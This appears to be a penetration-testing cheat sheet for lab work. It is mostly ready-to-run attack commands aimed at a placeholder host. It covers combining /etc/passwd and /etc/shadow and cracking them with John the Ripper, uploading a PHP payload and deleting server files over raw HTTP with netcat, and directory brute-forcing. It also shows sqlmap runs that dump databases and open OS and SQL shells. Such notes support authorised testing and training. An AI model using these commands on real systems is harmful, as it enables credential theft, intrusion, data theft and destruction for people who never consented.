 ```yaml
---
description: Hashes and Passwords
---
```


# System Attacks

## John the Ripper

### Unshadow

`passwd` is the **/etc/passwd** file  
`shadow` is the **/etc/shadow** file

```text
unshadow passwd shadow > hash
```

### Hash Cracking

```text
john --wordlist=/etc/john/rockyou.txt hash --show
```

Google the commands depending on the hash you find using `hashidentifier`



---
description: Web application vulns and exploits
---

# Web Attacks

## Banner grabbing

### Netcat \(for HTTP services\)

```bash
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL \(for HTTPS services\)

```bash
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint

```bash
httprint -P0 -h 10.10.10.10 -s /usr/share/httprint/signatures.txt
```

## HTTP Verbs

`GET,  POST, HEAD, PUT, DELETE`

### PUT is used to upload a file to the server

You have to find the size of the file you are uploading first

```text
wc -m payload.php
[size] payload.php
```

```text
nc 10.10.10.10 80
PUT /payload.php
Content-type: text/html
Content-length: [size]

```

### DELETE is used to delete a file from the server

```text
nc 10.10.10.10 80
DELETE /path/to/file.txt / HTTP/1.0
```

### OPTIONS is used to query the webserver for enabled HTTP Verbs

```text
nc 10.10.10.10 80
OPTIONS / HTTP/1.0
```

## Directory and File scanning

### Dirbuster

![Dirbuster](../.gitbook/assets/dirbuster.png)

1. You can choose different wordlists for the dictionary brute force but from my experience in most labs you can find them in the `common.txt` 
2. You can also choose different extensions but _`php`_ and _`bak`_ will be the most useful ones to find.
3. If there is HTTP authentication or login of some other kind for the webpage you can set the creds using \[Oprions -&gt; Advanced Options -&gt; Authentication options\]

### dirb

```text
dirb http://10.10.10.10/
```

**If Webpage is authenticated**

```text
dirb http://10.10.10.10/ -u <username>:<password>
```

## Google Dorks

`site:  
intitle:  
inurl:  
filetype:  
AND, OR & |  
-`

[GHDB](https://www.exploit-db.com/google-hacking-database) for more resources.

## XSS \(Cross Site Scripting\)

XSS filter bypass cheatsheet: [OWASP cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

**Reflected XSS**: Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload. 

**Persistent XSS**: Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post.

## SQL Injections

### GET

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id
```

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U
```

### Database USER

```sql
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --user
```

### Databases

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dbs
```

### Dump all

```text
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dump
```

### POST

Find the parameters that are being passed in POST using BurpSuite.  
E.g: **`username=some&password=thing`** where the parameter username is vulnerable.

```text
sqlmap -u 'http://10.10.10.10/login.php' --data='username=some&password=thing' -p username --technique=B
```

**The Databases, Users and dump-all switches are same as for the GET parameter.**

If you aren't able to deduce which parameter is vulnerable in POST, you can drop the -p switch. SQLMAP will try to test them and find it on it's own so don't sweat it and also for most of the prompts use the default options\(i.e. just press enter\).

The --technique switch is to create less noise and prevent the service from shutting down due to query overload. If the given techniques do not work try it removing the switch.

### OS-Shell

```text
sqlmap -u "http://10.10.10.10/login.php" --os-shell
```

### SQL-Shell

```text
sqlmap -u "http://10.10.10.10/login.php" --sql-shell
```

